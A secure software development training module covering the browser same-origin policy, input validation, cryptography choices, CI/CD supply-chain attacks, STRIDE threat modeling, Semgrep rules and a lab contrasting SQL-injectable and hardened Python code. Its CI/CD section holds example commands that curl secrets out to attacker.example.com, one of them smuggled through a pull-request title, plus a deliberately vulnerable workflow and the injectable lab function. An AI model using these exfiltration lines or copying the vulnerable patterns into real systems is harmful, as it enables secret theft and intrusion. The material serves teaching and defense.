

# Volume 1: Computer & Programming Foundations
# Module 02: Advanced Programming, Secure Software Development & Threat Modeling

---

## 1. Learning Objectives

By completing this module, security practitioners and software engineers will be able to:
1. Deconstruct the fullstack web execution model, from browser Document Object Model (DOM) rendering and JavaScript event loops to backend HTTP request parsing and database transactions.
2. Implement context-aware input validation, structural parameter binding, and context-aware output encoding across diverse rendering contexts.
3. Design and evaluate secure session management architectures utilizing hardened HTTP cookies, JSON Web Tokens (JWT), and cryptographic state verification.
4. Apply cryptographic engineering standards correctly in application logic, avoiding catastrophic implementation failures such as predictable pseudo-random number generation, IV reuse, and ECB mode ciphers.
5. Conduct systematic Threat Modeling using the STRIDE and DREAD methodologies to identify security design flaws prior to software deployment.
6. Build and execute automated Static Application Security Testing (SAST) and Software Composition Analysis (SCA) verification rules within continuous integration (CI/CD) pipelines.
7. Audit CI/CD pipelines and software supply chains, identifying Poisoned Pipeline Execution (PPE), GitHub Actions privilege escalation (`pull_request_target`), dependency confusion, and enforcing SLSA/SBOM integrity standards.

---

## 2. Prerequisites

* Working knowledge of at least one backend programming language (Python, Node.js, Go, or Java).
* Basic understanding of client-server architecture and TCP/IP networking.
* Familiarity with relational database syntax (SQL).

---

## 3. What Is It?

Secure software development is the engineering discipline of designing, constructing, and maintaining applications such that they continue to operate predictably and securely even when subjected to adversarial inputs, untrusted data flows, and malicious execution conditions.

Flaws in software manifest across two distinct categories:
1. **Design Flaws (Architectural Defects)**: Conceptual oversights in access control models, trust assumptions, or protocol workflows (e.g., failing to verify tenant ownership in a multi-tenant API). Design flaws cannot be resolved merely by patching lines of code; they require architectural redesign.
2. **Implementation Flaws (Bugs)**: Syntactic or procedural coding mistakes within an otherwise sound architecture (e.g., concatenating user input directly into an SQL query string rather than using parameterized statements).

---

## 4. Technical Explanation

### 4.1 The Browser Security Model & Frontend Architecture

The web browser is an untrusted client execution runtime running under the control of the end-user. The foundation of client-side web security is the **Same-Origin Policy (SOP)**:

```
Origin Definition:
+-------------------------------------------------------------------------+
| Protocol (Scheme)  | Hostname (FQDN)             | Port                 |
| https://           | app.staging.corp            | :443                 |
+-------------------------------------------------------------------------+
Rule: Two URIs share the same origin IF AND ONLY IF all three elements match.
```

#### Same-Origin Policy Enforcement Matrix

| Resource URI 1 | Resource URI 2 | Same Origin? | Reason |
| :--- | :--- | :--- | :--- |
| `https://api.corp.internal/data` | `https://api.corp.internal/user` | **YES** | Scheme, host, and default port (443) match. |
| `https://api.corp.internal:443` | `http://api.corp.internal:80` | **NO** | Scheme (`https` vs `http`) and port differ. |
| `https://api.corp.internal` | `https://v2.api.corp.internal` | **NO** | Hostname differs (subdomain boundary). |
| `https://api.corp.internal:443` | `https://api.corp.internal:8443` | **NO** | Port differs. |

The browser enforces SOP across:
* **DOM Access**: Scripts from Origin A cannot inspect or manipulate the DOM or JavaScript variables of an iframe or window belonging to Origin B.
* **Network Requests (XMLHttpRequest / Fetch API)**: Scripts can issue cross-origin requests, but the browser blocks reading the response body unless Origin B explicitly grants permission via **Cross-Origin Resource Sharing (CORS)** headers.
* **Storage Access**: Cookies, `localStorage`, `sessionStorage`, and `indexedDB` are strictly partitioned by origin.

---

### 4.2 Backend Architecture & Trust Boundaries

```
[Untrusted Client Browser / Mobile Device]
                    |
                    v (TLS Session, HTTP Request)
+-------------------------------------------------------------+
| Edge / Reverse Proxy (WAF, Rate Limiter, Load Balancer)    |
| - Terminates TLS, validates HTTP syntax                     |
+-------------------------------------------------------------+
                    | (Internal Network / Service Mesh)
                    v
+-------------------------------------------------------------+
| Backend Application Layer (Node.js, Python, Go, Java)       |
| 1. Authentication & Session Validation Gateway              |
| 2. Authorization & RBAC Enforcement Filter                  |
| 3. Input Validation & Deserialization Boundary              |
| 4. Business Logic Controller                                |
+-------------------------------------------------------------+
       |                                      |
       v (Parameterized SQL)                  v (REST / gRPC)
+------------------------+      +-----------------------------+
| Database Layer (SQL)   |      | Microservices & Object Store|
+------------------------+      +-----------------------------+
```

#### The Input Validation Paradigm
All data originating outside the immediate execution context must be treated as untrusted.
1. **Allowlisting (Positive Validation)**: Define strictly what is permitted (data type, character set, length, regex pattern) and reject everything else.
2. **Denylisting (Negative Validation)**: Attempting to filter out known bad characters (e.g., `'`, `<`, `script`). Denylisting is inherently fragile and fails due to character encoding, alternate representations, and parser differential behavior.

#### Context-Aware Output Encoding
Vulnerabilities such as Cross-Site Scripting (XSS) occur when untrusted data transitions from a data context into a code execution context. Protection requires encoding data specifically for the target rendering engine:
* **HTML Body Context**: Convert `&` to `&amp;`, `<` to `&lt;`, `>` to `&gt;`, `"` to `&quot;`, `'` to `&#x27;`.
* **HTML Attribute Context**: Strict alphanumeric allowlist or hex entity encoding (`&#xHH;`).
* **JavaScript Context**: Unicode escaping (`\uXXXX`) or strict JSON serialization with HTML entities escaped (`\u003c`).
* **SQL Context**: Parameterization / Prepared Statements (decoupling query compilation from user data).

---

### 4.3 Cryptographic Engineering in Application Code

Applying cryptography in code requires selecting modern, peer-reviewed primitives and avoiding common design traps:

#### 1. Password Hashing (Key Derivation Functions - KDFs)
* **Insecure**: MD5, SHA-1, SHA-256, plain SHA-512 (fast hashing algorithms intended for data integrity, trivial to brute-force on modern GPUs).
* **Secure Standard**: **Argon2id** (winner of Password Hashing Competition; memory-hard, GPU/ASIC resistant), **bcrypt** (work factor >= 12), or **PBKDF2-HMAC-SHA256** (>= 600,000 iterations per OWASP/NIST guidelines).

#### 2. Symmetric Encryption
* **Insecure Mode**: Electronic Codebook (ECB) mode. ECB encrypts identical 16-byte plaintext blocks into identical ciphertext blocks, preserving data patterns.
* **Insecure Construction**: Cipher Block Chaining (CBC) without an authenticated MAC (vulnerable to Padding Oracle attacks).
* **Secure Standard**: Authenticated Encryption with Associated Data (AEAD), specifically **AES-256-GCM** or **ChaCha20-Poly1305**.

#### 3. Random Number Generation
* **Insecure**: Standard pseudo-random number generators (PRNGs) like Python's `random`, C's `rand()`, JavaScript's `Math.random()`. These use deterministic linear congruential generators or Mersenne Twister algorithms predictable after observing sample outputs.
* **Secure Standard**: Cryptographically Secure Pseudo-Random Number Generators (CSPRNGs): Python's `secrets` module, Linux `/dev/urandom`, Windows `BCryptGenRandom()`, Web Crypto `crypto.getRandomValues()`.

---

### 4.4 CI/CD Pipeline Security & Software Supply Chain Protection

Modern software is built and released via Continuous Integration and Continuous Deployment (CI/CD) pipelines (GitHub Actions, GitLab CI, Jenkins). These automated build environments run arbitrary code with privileged access to production deployment keys, cloud credentials, and artifact registries, making them prime targets for software supply chain compromise.



#### 4.4.1 Poisoned Pipeline Execution (PPE)

Poisoned Pipeline Execution occurs when an adversary manipulates the pipeline build process to execute unauthorized code on the build runner:
1. **Direct PPE (Modifying Workflow Definitions)**:
   - An attacker submits a pull request modifying `.github/workflows/build.yml` to insert a malicious step:
     ```yaml
     - name: Exfiltrate Secrets
       run: curl https://attacker.example.com -d "key=$PROD_AWS_KEY"
     ```
   - If the pipeline executes untrusted PR workflows without review gates, the attacker gains full control of the runner.
2. **Indirect PPE (Manipulating Invoked Scripts)**:
   - Even if workflow files are protected, pipelines frequently execute project scripts (e.g., `npm test`, `python setup.py test`, `make test`, or custom `./scripts/build.sh`).
   - The attacker modifies the project script in their branch. When the CI workflow executes `npm test`, the runner executes the attacker's payload!

#### 4.4.2 Critical GitHub Actions Attack Vectors

1. **The `pull_request_target` Trap**:
   - Standard `pull_request` runs in an isolated, read-only context from forks without access to repository secrets.
   - `pull_request_target` runs in the context of the **base target repository** with access to repository secrets and write permissions for `GITHUB_TOKEN`.
   - **Vulnerable Pattern**: Checking out untrusted PR head code inside a `pull_request_target` workflow:
     ```yaml
     # CRITICALLY VULNERABLE WORKFLOW
     on:
       pull_request_target:
     jobs:
       build:
         runs-on: ubuntu-latest
         steps:
           - uses: actions/checkout@v3
             with:
               ref: ${{ github.event.pull_request.head.sha }} # Checks out untrusted code!
           - run: npm install && npm test                     # Arbitrary RCE with secrets!
     ```
2. **Context Expression Script Injection**:
   - GitHub Actions expressions like `${{ github.event.issue.title }}` or `${{ github.event.comment.body }}` are evaluated before shell invocation:
     ```yaml
     # VULNERABLE: Direct expression interpolation into shell
     - run: echo "Processing PR: ${{ github.event.pull_request.title }}"
     # If PR Title is: `test"; curl https://attacker.example.com/exfil?k=$SECRET; #`
     # The shell executes the injected curl command!
     
     # REMEDIATION: Pass untrusted values via intermediate environment variables
     - name: Safe Log
       env:
         PR_TITLE: ${{ github.event.pull_request.title }}
       run: echo "Processing PR: $PR_TITLE"
     ```

#### 4.4.3 Software Supply Chain Vulnerabilities: Dependency Confusion & Typosquatting

1. **Dependency Confusion (Namespace Confusion)**:
   - Enterprise organizations use internal private packages (e.g., `@corp-internal/payment-lib` or `corp-logger`).
   - Build tools (npm, pip, Maven) are often configured to query public registries (npmjs.com, PyPI) alongside private artifact repositories.
   - If the package name is not registered on the public registry, an external attacker registers the identical name on public npm with version `99.9.9`.
   - The build tool automatically fetches the higher version from the public registry, executing pre-install hooks (`package.json` `"preinstall"`) on developer machines and CI servers.
   - **Remediation**: Claim organizational scope namespaces on public registries (e.g., reserve `@corp-internal` on npm); configure package managers with explicit repository routing rules (`.npmrc` scoped registries).
2. **Software Bill of Materials (SBOM) & Supply-chain Levels for Software Artifacts (SLSA)**:
   - **SBOM**: A formal machine-readable inventory of software components, dependencies, versions, and licenses. Standard formats include **CycloneDX** (OWASP) and **SPDX** (Linux Foundation). Generated via tools like `syft dir:. -o cyclonedx-json=sbom.json`.
   - **SLSA (sal-sa)**: A security framework defining 4 levels of software artifact integrity:
     - *SLSA Level 1*: Documented build process and provenance generation.
     - *SLSA Level 2*: Hosted build platform (e.g., GitHub Actions), tamper-resistant provenance signed by the build service.
     - *SLSA Level 3*: Hardened isolated ephemeral build environments preventing lateral access.
     - *SLSA Level 4*: Hermetic builds, reproducible builds, and mandatory two-person code reviews for all dependencies.
   - **Cryptographic Provenance Signing with Sigstore Cosign**:
     ```bash
     # Sign container image with keyless OIDC identity from GitHub Actions
     cosign sign --yes ghcr.io/org/app:v1.0.0
     
     # Verify artifact provenance before deployment in Kubernetes
     cosign verify --certificate-identity "https://github.com/org/app/.github/workflows/deploy.yml@refs/heads/main" \
       ghcr.io/org/app:v1.0.0
     ```

---

## 5. How It Works: Threat Modeling with STRIDE

Threat modeling systematically decomposes a software system to discover potential design flaws before code is written.

```
+----------------------------------------------------------------------+
| Threat Category | Property Violated  | Definition                    |
+-----------------+--------------------+-------------------------------+
| Spoofing        | Authenticity       | Impersonating a valid entity  |
| Tampering       | Integrity          | Altering data in transit/rest |
| Repudiation     | Non-Repudiation    | Denying having performed action|
| Information Disc| Confidentiality    | Exposing data to unauthorized |
| Denial of Serv  | Availability       | Exhausting system resources   |
| Elevation Priv  | Authorization      | Gaining unassigned permissions|
+----------------------------------------------------------------------+
```

### STRIDE Assessment Data Flow Diagram (DFD)

```
[ External User ]
       |
       | 1. HTTP/TLS (Auth Token) ---> [Threat: Spoofing, Tampering]
       v
(( Process: API Gateway ))
       |
       | 2. Internal gRPC Call ------> [Threat: Elevation of Privilege]
       v
(( Process: Payment Service ))
       |
       | 3. Read/Write Query --------> [Threat: Information Disclosure]
       v
[( Data Store: Transaction DB )]
```

---

## 6. Security Perspective

### 6.1 Attack Surface and Vulnerability Origins
* **Improper Input Neutralization (CWE-20, CWE-89, CWE-78)**: Blindly concatenating untrusted parameters into structured interpreters (SQL, shell commands, LDAP, XPath).
* **Broken Object Level Authorization (CWE-639 / BOLA)**: Checking if a user is authenticated, but failing to verify if the authenticated user owns the specific object referenced in the request.
* **Secrets Hardcoding (CWE-798)**: Embedding API tokens, database passwords, or private keys directly within source code repositories or client-side JavaScript bundles.
* **Supply Chain Risks (CWE-1395)**: Pulling unvetted third-party libraries containing vulnerabilities or malicious backdoors via package managers (npm, PyPI, Maven).

---

## 7. Auditing Methodology: Secure Code Review

```
[1. Scoping] --------> [2. Static Analysis] ---> [3. Data Flow Triage] -> [4. Manual Audit]
Define critical code   Run automated SAST        Trace user input         Inspect auth logic,
paths (auth, payment)  engines (Semgrep, Sonar)  from Sources to Sinks    crypto, business logic
                                                                                  |
[8. Verification] <--- [7. Retest Code] <------- [6. Remediation Code] <- [5. Defect Proof]
Confirm flaw eliminated Re-run SAST and test     Provide hardened code    Produce non-destructive
in automated pipeline   cases                    patch with test suite    test harness
```

1. **Source-to-Sink Analysis**:
   * **Source**: The point of entry where untrusted external data enters the application (e.g., `request.args.get()`, `req.body`, `$_GET`, route parameters).
   * **Sanitizer / Transformer**: The functions that validate, cast, or encode data between source and sink.
   * **Sink**: The vulnerable internal function that executes or renders data (e.g., `db.execute()`, `eval()`, `subprocess.Popen()`, `res.send()`).

---

## 8. Tooling Deep-Dive: Semgrep SAST Engine

Semgrep is a fast, open-source static analysis engine for finding bugs and enforcing code standards using syntax patterns that look like source code.

### Installation
```bash
pip install semgrep
```

### Writing Custom Security Rules
Create a custom rule file `rules/detect_sqli.yaml`:
```yaml
rules:
  - id: python-sqlite-raw-concatenation
    patterns:
      - pattern-either:
          - pattern: $CURSOR.execute("..." % $VAR)
          - pattern: $CURSOR.execute(f"...{$VAR}...")
          - pattern: $CURSOR.execute("..." + $VAR)
    message: "Potential SQL Injection detected: raw string formatting in database execute statement."
    languages: [python]
    severity: ERROR
    metadata:
      cwe: "CWE-89: Improper Neutralization of Special Elements used in an SQL Command"
      owasp: "A03:2021 - Injection"
```

### Running the Audit
```bash
semgrep --config rules/detect_sqli.yaml src/
```

---

## 9. Practical Lab: Vulnerable vs. Secure Backend Implementation

### 9.1 Lab Architecture
We construct an isolated Python SQLite micro-service demonstrating two implementations:
1. An insecure endpoint vulnerable to SQL injection and broken access control.
2. A hardened endpoint utilizing parameterized queries, context-aware validation, and strict authorization enforcement.

```
+-------------------------------------------------------------+
| Local Authorized Lab Environment                            |
| File: /home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/    |
|       module_02/secure_dev_lab.py                           |
+-------------------------------------------------------------+
```

### 9.2 Lab Code Implementation

Create directory:
```bash
mkdir -p /home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/module_02
cd /home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/module_02
```

Create `secure_dev_lab.py`:
```python
#!/usr/bin/env python3
"""
Secure Software Development Lab: Code Auditing & Verification
Demonstrates Insecure vs. Hardened Database Queries & Access Control.
"""
import sqlite3
import secrets

def init_db():
    conn = sqlite3.connect(":memory:")
    cur = conn.cursor()
    cur.execute("""
        CREATE TABLE users (
            id INTEGER PRIMARY KEY,
            username TEXT,
            api_key TEXT,
            role TEXT
        )
    """)
    cur.execute("""
        CREATE TABLE documents (
            id INTEGER PRIMARY KEY,
            owner_id INTEGER,
            title TEXT,
            content TEXT
        )
    """)
    # Seed data
    cur.execute("INSERT INTO users VALUES (1, 'alice', 'sk_live_1234****REDACTED', 'user')")
    cur.execute("INSERT INTO users VALUES (2, 'bob', 'sk_live_5678****REDACTED', 'user')")
    cur.execute("INSERT INTO users VALUES (3, 'admin', 'sk_live_9999****REDACTED', 'admin')")
    
    cur.execute("INSERT INTO documents VALUES (101, 1, 'Alice Q3 Report', 'Proprietary financial analysis')")
    cur.execute("INSERT INTO documents VALUES (102, 2, 'Bob Notes', 'Personal project design')")
    conn.commit()
    return conn

# --------------------------------------------------------------------
# FLAWED IMPLEMENTATION (For Code Review & Auditing)
# --------------------------------------------------------------------
def insecure_get_document(conn, user_supplied_doc_id):
    """
    VULNERABILITIES:
    1. SQL Injection: Raw string concatenation into SQL query (CWE-89).
    2. Broken Object Level Authorization (BOLA): No ownership check (CWE-639).
    """
    cur = conn.cursor()
    query = f"SELECT id, title, content FROM documents WHERE id = {user_supplied_doc_id}"
    cur.execute(query)
    return cur.fetchall()

# --------------------------------------------------------------------
# HARDENED IMPLEMENTATION (Production-Ready Pattern)
# --------------------------------------------------------------------
def secure_get_document(conn, requesting_user_id: int, user_supplied_doc_id: str):
    """
    REMEDIATIONS:
    1. Parameterized Query: Decouples SQL code from user parameters (Prevents CWE-89).
    2. Input Validation: Enforces strict integer casting and boundary checks (CWE-20).
    3. Object-Level Access Control: Verifies that requesting_user_id owns the document (Prevents CWE-639).
    """
    # 1. Strict Input Validation
    try:
        doc_id = int(user_supplied_doc_id)
        if doc_id <= 0:
            raise ValueError("ID must be positive.")
    except (ValueError, TypeError):
        return {"error": "Invalid document ID format", "status": 400}

    # 2. Parameterized Query enforcing ownership boundary
    cur = conn.cursor()
    cur.execute(
        "SELECT id, title, content FROM documents WHERE id = ? AND owner_id = ?",
        (doc_id, requesting_user_id)
    )
    result = cur.fetchone()
    if not result:
        return {"error": "Document not found or access denied", "status": 404}

    return {"id": result[0], "title": result[1], "content": result[2], "status": 200}

if __name__ == "__main__":
    conn = init_db()
    print("[*] Database initialized with test records.")

    print("\n--- 1. Testing Flawed Query with Benign Probe ---")
    # Benign boundary probe testing logical OR evaluation
    probe = "101 OR 1=1"
    raw_results = insecure_get_document(conn, probe)
    print(f"[!] Flawed query with probe '{probe}' returned {len(raw_results)} records (Expected 1) -> VULNERABLE TO SQLi!")

    print("\n--- 2. Testing Hardened Implementation ---")
    # Test legitimate access by Alice (User ID 1) to Document 101
    resp_valid = secure_get_document(conn, requesting_user_id=1, user_supplied_doc_id="101")
    print(f"[+] Legitimate access test: {resp_valid}")

    # Test BOLA protection: Bob (User ID 2) attempts to read Alice's Document 101
    resp_bola = secure_get_document(conn, requesting_user_id=2, user_supplied_doc_id="101")
    print(f"[+] BOLA protection test (Bob accessing Alice doc): {resp_bola}")

    # Test SQLi protection: Probe string passed to secure function
    resp_sqli = secure_get_document(conn, requesting_user_id=1, user_supplied_doc_id="101 OR 1=1")
    print(f"[+] SQLi defense test: {resp_sqli}")
```

### 9.3 Verification and Cleanup
Execute the script:
```bash
python3 secure_dev_lab.py
```
**Expected Observation**:
The flawed function returns all database records when supplied with the logical probe `101 OR 1=1`. The hardened function rejects the probe at the validation boundary and successfully prevents unauthorized cross-user access.

---

## 10. Verification & False-Positive Elimination

1. **Source Code Auditing**:
   * Verify if the query builder or Object-Relational Mapper (ORM) generates native parameterized queries.
   * Beware of ORM misuse: In frameworks like Hibernate, Sequelize, or Django, using raw SQL clauses (e.g., `raw()`, `extra()`) re-introduces injection risks if strings are formatted manually.
2. **Eliminating Static Analysis False Positives**:
   * If a static scanner flags an SQL concatenation, trace whether the concatenated variable is a compile-time constant (e.g., hardcoded table prefix) or an unvalidated runtime input. If strictly static, the finding is a false positive.

---

## 11. Telemetry & Defensive Detection

### 11.1 Web Application Firewall (WAF) & Application Logging
Log security-relevant events structurally (JSON) without logging sensitive parameters:

```json
{
  "timestamp": "2026-09-05T09:30:00Z",
  "event_type": "security_validation_failure",
  "client_ip": "192.168.1.105",
  "user_id": 14,
  "endpoint": "/api/v1/documents",
  "parameter": "doc_id",
  "rejected_value_sample": "101 OR 1=1",
  "rule_triggered": "NON_NUMERIC_ID_SUPPLIED"
}
```

### 11.2 Database Audit Telemetry (PostgreSQL / MySQL)
Configure database logging to capture abnormal syntax errors indicating injection probing:
```sql
-- PostgreSQL: Log queries resulting in syntax or parsing errors
ALTER SYSTEM SET log_min_error_statement = 'error';
ALTER SYSTEM SET log_statement = 'ddl';
SELECT pg_reload_conf();
```

---

## 12. Mitigation & Secure Implementation

### 12.1 Context-Aware Output Encoding (JavaScript / DOM)

```javascript
/**
 * Production-ready HTML entity encoder for untrusted string insertion.
 * Neutralizes reflected XSS (CWE-79).
 */
function escapeHtml(unsafeString) {
  if (typeof unsafeString !== 'string') {
    return '';
  }
  return unsafeString
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// SECURE DOM INSERTION:
// Use textContent instead of innerHTML to prevent script execution
const userCommentElement = document.getElementById("user-comment");
userCommentElement.textContent = untrustedApiInput; // Safe by default
```

### 12.2 Hardened Session Cookie Configuration (Express.js)

```javascript
const session = require('express-session');

app.use(session({
  name: '__Host-SessionID', // Enforces Secure attribute and root path
  secret: process.env.SESSION_SECRET,
  resave: false,
  saveUninitialized: false,
  cookie: {
    httpOnly: true,       // Mitigates client-side script theft (XSS defense)
    secure: true,         // Enforces TLS-only transmission
    sameSite: 'strict',   // Mitigates Cross-Site Request Forgery (CSRF)
    maxAge: 3600000       // 1 hour session lifetime
  }
}));
```

---

## 13. Hardening Guidelines

1. **Content Security Policy (CSP Level 3)**:
   * Deliver strong HTTP response headers disabling inline scripts and restricting resource origins:
     ```http
     Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-rAnd0m123'; object-src 'none'; base-uri 'self';
     ```
2. **HTTP Security Headers Baseline**:
   * `Strict-Transport-Security: max-age=63072000; includeSubDomains; preload`
   * `X-Content-Type-Options: nosniff`
   * `X-Frame-Options: DENY`
   * `Referrer-Policy: strict-origin-when-cross-origin`

---

## 14. Documented Case Studies

### 14.1 Historical Incident: The Capital One Data Incident (SSRF & Cloud IAM Misconfiguration)
* **Vulnerability Classification**: CWE-918: Server-Side Request Forgery (SSRF).
* **Affected Technology**: Open-source web application firewall (ModSecurity) running on Amazon EC2.
* **Root Cause**: The reverse proxy service accepted an unvalidated URL parameter and performed a backend fetch request to the AWS Instance Metadata Service (`http://169.254.169.254/latest/meta-data/iam/security-credentials/`).
* **Impact**: Extraction of temporary AWS IAM role credentials assigned to the EC2 instance, which possessed overly permissive read access across customer S3 buckets.
* **Remediation**: Transition to AWS IMDSv2 (requiring session tokens via `PUT` requests, mitigating simple SSRF) and enforcement of least-privilege IAM policies.

---

## 15. Common Mistakes & Anti-Patterns

1. **Client-Side Security Validation Only**: Validating fields using HTML5 `required` or JavaScript regex on the frontend while failing to repeat identical validation checks on backend API controllers.
2. **Blacklisting Problematic Characters**: Writing filters that replace `<script>` with empty strings (which is easily bypassed using nested probes like `<scr<script>ipt>`).
3. **Roll-Your-Own Cryptography**: Attempting to implement custom XOR-based obfuscation or homegrown key derivation instead of standardized libraries (libsodium, Web Crypto, cryptography.io).

---

## 16. Professional vs. Naive Methodology

| Assessment Task | Naive / Novice Approach | Professional Security Engineer Approach |
| :--- | :--- | :--- |
| **Code Review** | Greps for dangerous functions (`eval`, `system`, `innerHTML`) and generates massive alert lists. | Performs Source-to-Sink data-flow analysis, maps trust boundaries, audits authentication gateways, and inspects business logic flaws. |
| **Input Validation** | Adds ad-hoc character stripping in individual controllers whenever an injection bug is flagged. | Implements a centralized, schema-driven validation layer (e.g., Zod, Pydantic, Joi) enforcing strict typing and allowlists before controller routing. |
| **Secrets Management** | Moves hardcoded passwords from code files into `.env` files committed to Git repositories. | Employs external KMS / Secrets Managers (HashiCorp Vault, AWS Secrets Manager) with short-lived dynamic credentials and automated rotation. |

---

## 17. Knowledge Check & Interview Questions

### Beginner Level
1. Explain the Same-Origin Policy (SOP) and name the three components that define an origin.
2. What is the security purpose of the `HttpOnly` flag on an HTTP session cookie?
3. Why is parameterized SQL superior to string sanitization for preventing SQL injection?

### Intermediate Level
4. What is the difference between Reflected XSS, Stored XSS, and DOM-based XSS?
5. Why are cryptographic hash functions like SHA-256 unsuitable for storing user passwords, and what alternatives should be used?
6. In a modern Single Page Application (SPA), what are the security trade-offs between storing authentication tokens in `localStorage` versus `HttpOnly` cookies?

### Advanced Level
7. Explain how a Padding Oracle vulnerability operates against an AES-CBC encrypted ciphertext when an application leaks different error responses for invalid padding versus invalid data.
8. Describe the Threat Modeling process using STRIDE for a cloud-native microservice architecture handling payment transactions.

### Scenario-Based Questions
9. *Scenario*: During an audit of a REST API endpoint `GET /api/v2/invoices/:id`, you observe that User A can retrieve User B's invoices simply by altering the numeric ID in the URL. Classify this vulnerability (CWE), explain the architectural root cause, and provide the exact backend logic required to remediate it.
10. *Scenario*: In GitHub Actions, why is the `pull_request_target` trigger considered dangerous when paired with an `actions/checkout` step using `ref: ${{ github.event.pull_request.head.sha }}`, and how can an external contributor exploit this to steal production repository secrets?
    * *Answer*: `pull_request_target` runs in the context of the base repository rather than the fork, granting it access to repository secrets and write permissions for `GITHUB_TOKEN`. When paired with checking out the pull request's untrusted head SHA, the runner downloads and executes untrusted code supplied by an external PR author (e.g., inside `npm test` or build scripts) with repository secrets loaded in the runner environment. The attacker can easily read environment variables or memory and exfiltrate secrets to an external server. The remediation is to never check out untrusted PR code in a `pull_request_target` workflow, or to use the isolated `pull_request` event for building and testing untrusted code.
11. Explain **Dependency Confusion** and how it differs from **Typosquatting** in software supply chain attacks.
    * *Answer*: Dependency Confusion occurs when an internal private package (e.g., `@corp/billing`) is not registered on public package registries (like npm or PyPI). An attacker registers that exact package name on the public registry with an artificially inflated version number (e.g., `99.9.9`). When the enterprise build system or developer installs dependencies, default package managers query the public index, find the higher version number, and install the attacker's public package containing malicious pre-install hooks. In contrast, Typosquatting relies on human error, where an attacker registers slightly misspelled variations of popular legitimate open-source packages (e.g., `reqeusts` instead of `requests`).

---

## 18. Progressive Practice Exercises

1. **Exercise 1 (Beginner)**: Write a Python script using the `secrets` module to generate a cryptographically secure 32-byte session token encoded in URL-safe base64. Contrast this with output from `random.randint()`.
2. **Exercise 2 (Intermediate)**: Write a custom Semgrep rule that flags insecure usage of Python's `pickle.loads()` when parsing data received from network sockets.
3. **Exercise 3 (Advanced)**: Implement a complete multi-tenant Flask or Express.js API endpoint that demonstrates proper Object-Level Authorization (BOLA mitigation), verifying both JWT authenticity and database record tenant ownership.

---

## 19. Key Takeaways

* Security cannot be retrofitted through external firewalls alone; it must be designed into the software architecture from inception.
* Context is everything in application security: sanitization that is effective against SQL injection does nothing to prevent XSS or command execution.
* Software Composition Analysis (SCA) and Static Application Security Testing (SAST) must be embedded into developer workflows to catch defects before production deployment.

---

## 20. Authoritative References

* **OWASP Application Security Verification Standard (ASVS) 4.0**: Level 1, 2, and 3 security requirements.
* **NIST SP 800-63B**: Digital Identity Guidelines — Authentication and Lifecycle Management.
* **NIST SP 800-95**: Guide to Secure Web Services.
* **The CERT C/C++ / Python Secure Coding Standards**: Software Engineering Institute (SEI), Carnegie Mellon University.
* **OWASP Top 10 Proactive Controls for Developers**: Guidance on secure architecture and implementation.
